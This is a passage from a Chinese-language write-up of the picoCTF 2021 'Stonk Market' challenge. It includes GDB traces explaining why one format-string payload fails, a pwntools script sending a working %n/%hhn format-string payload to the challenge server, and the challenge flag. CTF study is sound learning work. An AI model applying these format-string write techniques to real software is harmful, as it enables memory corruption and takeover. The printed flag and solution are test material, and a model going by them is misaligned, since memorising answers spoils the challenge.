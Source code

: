     ```
    :::
可以看到`0x7ffff7e40bc4 mov BYTE PTR [rax], bl`準備把0xf0的值放到rax指向的位置，但是如果是第一種payload，rax的value是0，而第二種payload所存放的value才是0x602018，所以這應該就是@ccccctw所提到的問題，一開始把`0x602018`寫入`0x00007fffffffd7d0`之前都還是零，所以第二種payload因為某種關係，他可以先把`0x602018`寫入`0x00007fffffffd7d0`，==再==把`0x602018`指向的`0x4006c6`最後一個byte改掉，而不是像第一種payload一樣，是同時執行所有的動作，導致系統還沒有把`0x602018`寫入`0x00007fffffffd7d0`，想當然`0x00007fffffffd7d0`的value也是零
```
...
0x00007fffffffd790│+0x0030: 0x00007fffffffd7d0  →  0x0000000000000000    ← $rbp
...
0x00007fffffffd7d0│+0x0070: 0x0000000000000000
```

---
:::spoiler 完整的trace stack
```
gef➤  bt 10
#0  0x00007ffff7e40bc4 in printf_positional (s=s@entry=0x7fffffffafc0, format=format@entry=0x603730 "%6299672c%12$n%216c%20$hhn%10504067c%10$n", readonly_format=readonly_format@entry=0x0, ap=ap@entry=0x7fffffffd680, ap_savep=ap_savep@entry=0x7fffffffab48, done=<optimized out>, nspecs_done=<optimized out>, lead_str_end=<optimized out>, work_buffer=<optimized out>, save_errno=<optimized out>, grouping=<optimized out>, thousands_sep=<optimized out>, mode_flags=<optimized out>) at vfprintf-internal.c:2072
#1  0x00007ffff7e41dcd in __vfprintf_internal (s=s@entry=0x7fffffffafc0, format=0x603730 "%6299672c%12$n%216c%20$hhn%10504067c%10$n", ap=0x7fffffffd680, mode_flags=<optimized out>) at vfprintf-internal.c:1733
#2  0x00007ffff7e44ea2 in buffered_vfprintf (s=s@entry=0x7ffff7fb86a0 <_IO_2_1_stdout_>, format=format@entry=0x603730 "%6299672c%12$n%216c%20$hhn%10504067c%10$n", args=args@entry=0x7fffffffd680, mode_flags=mode_flags@entry=0x0) at vfprintf-internal.c:2377
#3  0x00007ffff7e41d24 in __vfprintf_internal (s=0x7ffff7fb86a0 <_IO_2_1_stdout_>, format=0x603730 "%6299672c%12$n%216c%20$hhn%10504067c%10$n", ap=ap@entry=0x7fffffffd680, mode_flags=mode_flags@entry=0x0) at vfprintf-internal.c:1346
#4  0x00007ffff7e2cd3f in __printf (format=<optimized out>) at printf.c:33
#5  0x0000000000400ace in buy_stonks ()
#6  0x0000000000400c66 in main ()
```
:::

## Exploit - FMT
```python=
from pwn import *

if args.LOCAL:
    r = process('./vuln')
else:
    r = remote('mercury.picoctf.net', 5654)

payload = '%c'*10 + '%6299662c' + '%n' + '%216c' + '%20$hhn' + '%10504067c' + '%10$n'

r.sendline(b'1')
raw_input()
r.sendlineafter(b"token?", payload.encode())
r.interactive()
```

Flag: `picoCTF{explo1t_m1t1gashuns_641dcdf1}`

## Reference
[^pico_pwn_stonk_market_wp]:[ picoCTF 2021 Stonk Market ](https://youtu.be/gLFJFXpY44w)